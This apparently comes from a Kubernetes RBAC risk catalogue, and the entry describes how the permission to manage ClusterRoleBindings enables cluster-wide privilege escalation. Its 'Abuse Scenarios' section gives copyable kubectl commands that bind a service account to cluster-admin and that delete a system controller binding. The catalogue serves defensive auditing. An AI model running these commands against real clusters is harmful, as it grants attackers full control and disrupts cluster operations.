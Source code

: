 ```yaml
---
id: 1028
title: "Manage ClusterRoleBindings (create, update, patch, delete)"
description: "Permits creating, modifying, or deleting ClusterRoleBindings. This allows an attacker to bind any user, group, or service account to any ClusterRole (including highly privileged ones like cluster-admin), effectively granting arbitrary cluster-wide permissions and leading to privilege escalation."
category: Elevation of Privilege
risk_level: RiskLevelCritical
date: ""
---
```


## Overview

| Field         | Value                                                                                                                                   |
| ------------- | --------------------------------------------------------------------------------------------------------------------------------------- |
| ID            | 1028                                                                                                                                    |
| Name          | Manage ClusterRoleBindings (create, update, patch, delete)                                                                              |
| Risk Category | Elevation of Privilege                                                                                                                  |
| Risk Level    | {{< risk Critical >}}                                                                                                                   |
| Role Type     | ClusterRole                                                                                                                             |
| API Groups    | rbac.authorization.k8s.io                                                                                                               |
| Resources     | clusterrolebindings                                                                                                                     |
| Verbs         | create, update, patch, delete                                                                                                           |
| Tags          | {{< tag "BindingToPrivilegedRole" >}} {{< tag "ClusterAdminAccess" >}} {{< tag "PrivilegeEscalation" >}} {{< tag "RBACManipulation" >}} |

## Description

Permits creating, modifying, or deleting ClusterRoleBindings. This allows an attacker to bind any user, group, or service account to any ClusterRole (including highly privileged ones like cluster-admin), effectively granting arbitrary cluster-wide permissions and leading to privilege escalation.

## Abuse Scenarios

1. Create a ClusterRoleBinding to grant cluster-admin to a service account.

```bash {copy=true}
kubectl create -f - <<EOF
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: pwned-cluster-admin-binding
subjects:
- kind: ServiceAccount
  name: <serviceaccount-name>
  namespace: <namespace>
roleRef:
  kind: ClusterRole
  name: cluster-admin
  apiGroup: rbac.authorization.k8s.io
EOF
# Example: kubectl create -f - <<EOF ... EOF (bind 'default' SA in 'default' namespace to cluster-admin)

```

2. Delete a ClusterRoleBinding, revoking cluster-wide permissions.

```bash {copy=true}
kubectl delete clusterrolebinding <clusterrolebinding-name>
# Example: kubectl delete clusterrolebinding system:kube-controller-manager

```
